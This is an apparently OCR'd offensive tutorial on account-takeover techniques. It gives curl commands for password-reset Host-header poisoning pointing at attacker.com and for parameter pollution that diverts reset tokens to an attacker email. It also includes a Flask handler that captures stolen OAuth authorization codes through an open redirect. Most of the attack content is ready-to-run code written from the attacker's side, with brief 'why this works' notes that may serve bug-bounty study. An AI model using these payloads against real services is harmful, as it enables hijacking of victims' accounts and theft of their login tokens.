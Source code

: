 **cURL Request to Trigger**:

```bash
curl -X POST 'https://vulnerable.com/reset-password' \    
-H 'Host: attacker.com' \    
-d 'email=victim@example.com'
```

**Why This Works**:

- Developers often trust the `Host` header to generate reset links.

**Flags to Check**:

- Missing `Host` header validation (common in legacy systems).

**Note:**

`host='0.0.0.0'` is about **where your Flask server listens** (your machine).

`attacker.com` is about **where the victim’s browser sends requests** (your server).

## b. Parameter Pollution to Redirect Tokens

**Step-by-Step**:

1. Add duplicate `email` parameters in the reset request.
2. If the backend uses the last parameter, the token goes to your email.

**cURL Example**:

```bash
curl -X POST 'https://vulnerable.com/reset-password?email=victim@example.com&email=attacker@example.com'  
```

**Why This Works**:

- Poorly coded backends may process the last parameter in the chain.

# 2. OAuth Token Theft

## a. Open Redirect + Token Capture

#OAuth

**Step-by-Step**:

1. Find an open redirect in `redirect_uri`.
2. Steal OAuth authorization codes.

**Python Flask Redirect Handler**:

```python
from flask import Flask, request    
app = Flask(__name__)    
  
@app.route('/callback')    
def capture_code():    
    code = request.args.get('code')    
    print(f"[+] OAuth Code: {code}")    
    return "Error: Invalid code", 404    
  
if __name__ == '__main__':    
    app.run(port=80)
```
